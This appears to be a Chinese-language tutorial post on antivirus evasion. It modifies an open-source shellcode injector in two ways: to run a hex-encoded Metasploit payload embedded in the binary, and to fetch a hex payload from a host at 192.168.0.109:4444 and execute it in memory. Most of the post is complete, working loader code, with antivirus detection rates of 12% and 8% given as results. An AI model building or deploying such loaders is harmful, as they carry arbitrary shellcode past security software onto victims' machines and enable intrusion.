


# 基于HEX字符串执行的AV绕过

## 开源项目改造-&gt;内嵌shellcode

我们采用@[DimopoulosElia](https://github.com/DimopoulosElias)的 [SimpleShellcodeInject](https://github.com/DimopoulosElias/SimpleShellcodeInjector)项目进行一些自定义改造，核心代码如下。

```
for(unsigned int i = 0; i< iterations-1; i++) {//读入HEX字符串转换成shellcode
    sscanf(shellcode+2*i, "%2X", &char_in_hex);
    shellcode[i] = (char)char_in_hex;
}
```

由于该项目采用命令行传参，在实际使用过程中可能不太方便，我们对其进行一个内嵌HEX字符串的操作。

```bash
// windows/messagebox - 272 bytes
// https://metasploit.com/
// VERBOSE=false, PrependMigrate=false, EXITFUNC=process, 
// TITLE=MessageBox, TEXT=Hello, from MSF!, ICON=NO
d9eb9bd97424f431d2b27731c9648b71308b760c8b761c8b46088b7e208b36384f1875f35901d1ffe1608b6c24248b453c8b54287801ea8b4a188b5a2001ebe334498b348b01ee31ff31c0fcac84c07407c1cf0d01c7ebf43b7c242875e18b5a2401eb668b0c4b8b5a1c01eb8b048b01e88944241c61c3b20829d489e589c2688e4e0eec52e89fffffff894504bb7ed8e273871c2452e88effffff894508686c6c20416833322e64687573657230db885c240a89e656ff550489c250bba8a24dbc871c2452e85fffffff686f7858206861676542684d65737331db885c240a89e36858202020684d53462168726f6d20686f2c20666848656c6c31c9884c241089e131d252535152ffd031c050ff5508

```


```bash
#include <stdio.h>
#include <Windows.h>
char shellcode[] = "d9eb9bd97424f431d2b27731c9648b71308b760c8b761c8b46088b7e208b36384f1875f35901d1ffe1608b6c24248b453c8b54287801ea8b4a188b5a2001ebe334498b348b01ee31ff31c0fcac84c07407c1cf0d01c7ebf43b7c242875e18b5a2401eb668b0c4b8b5a1c01eb8b048b01e88944241c61c3b20829d489e589c2688e4e0eec52e89fffffff894504bb7ed8e273871c2452e88effffff894508686c6c20416833322e64687573657230db885c240a89e656ff550489c250bba8a24dbc871c2452e85fffffff686f7858206861676542684d65737331db885c240a89e36858202020684d53462168726f6d20686f2c20666848656c6c31c9884c241089e131d252535152ffd031c050ff5508";
int main(int argc, char* argv[]) {

    unsigned int char_in_hex;


 //  char* shellcode = argv[1];//从参数读取HEX字符串
    unsigned int iterations = strlen(shellcode);
    

    unsigned int memory_allocation = strlen(shellcode) / 2;

    VirtualProtect(shellcode, memory_allocation, PAGE_READWRITE, 0);
    //由于字符串编译后默认写入不可写的PE段，所以需要修改内存属性

    for (unsigned int i = 0; i < iterations / 2; i++) { //减小开销
        sscanf_s(shellcode + 2 * i, "%2X", &char_in_hex);
        shellcode[i] = (char)char_in_hex;
    }


    void* exec = VirtualAlloc(0, memory_allocation, MEM_COMMIT, PAGE_READWRITE);
    memcpy(exec, shellcode, memory_allocation);
    DWORD ignore;
    VirtualProtect(exec, memory_allocation, PAGE_EXECUTE, &ignore);

    (*(void (*)()) exec)();

    return 0;
}
```



* 未加密payload检出率:12%


## 开源项目改造-&gt;网络分离免杀

由于内嵌payload，可能会被部分杀软标记特征码，这里给这个开源项目加入网络传递payload功能，代码如下。

```bash
#include <Windows.h>
DWORD RecvData(char** DataBuffer);
```

```bash
#include <stdio.h>
#include <Windows.h>
#include "sockets.h"


int main(int argc, char* argv[]) {
    unsigned int char_in_hex;
    LPSTR  shellcode = NULL;
 //  char* shellcode = argv[1];//从参数读取HEX字符串
    unsigned int iterations = RecvData(&shellcode);
    

    unsigned int memory_allocation = iterations / 2;


    for (unsigned int i = 0; i < iterations / 2; i++) { //减小开销
        sscanf_s(shellcode + 2 * i, "%2X", &char_in_hex);
        shellcode[i] = (char)char_in_hex;
    }


    void* exec = VirtualAlloc(0, memory_allocation, MEM_COMMIT, PAGE_READWRITE);
    memcpy(exec, shellcode, memory_allocation);
    DWORD ignore;
    VirtualProtect(exec, memory_allocation, PAGE_EXECUTE, &ignore);

    (*(void (*)()) exec)();

    return 0;
}
```

```bash
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <stdio.h>
#pragma comment(lib, "ws2_32.lib")
#pragma warning(disable : 4996)

DWORD RecvData(char** DataBuffer) {
	WSADATA wsaData;
	WSAStartup(MAKEWORD(2, 2), &wsaData);
	SOCKET ConnectSocket;
	ConnectSocket = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
	sockaddr_in clientService;
	clientService.sin_family = AF_INET;
	clientService.sin_addr.s_addr = inet_addr("192.168.0.109");
	clientService.sin_port = htons(4444);
	int iResult = 0;
	INT OnceRecvBytes = 0;
	INT RecvBytes = 0;
	struct timeval timeout = { 3,0 };
	int ret = setsockopt(ConnectSocket, SOL_SOCKET, SO_RCVTIMEO, (const char*)&timeout, sizeof(timeout));
	char* bufferReceivedBytes = new char[2000000];

	do
	{
		iResult = connect(ConnectSocket, (SOCKADDR*)&clientService, sizeof(clientService));
		Sleep(5);

	} while (iResult == SOCKET_ERROR);


	RecvBytes = recv(ConnectSocket, bufferReceivedBytes, 4096, NULL);


	iResult = closesocket(ConnectSocket);
	*DataBuffer = bufferReceivedBytes;
	return RecvBytes;
};

```



* 分离免杀检出率:8%



* github:[https://github.com/idiotc4t/ssi](https://github.com/idiotc4t/ssi)

## LINKS




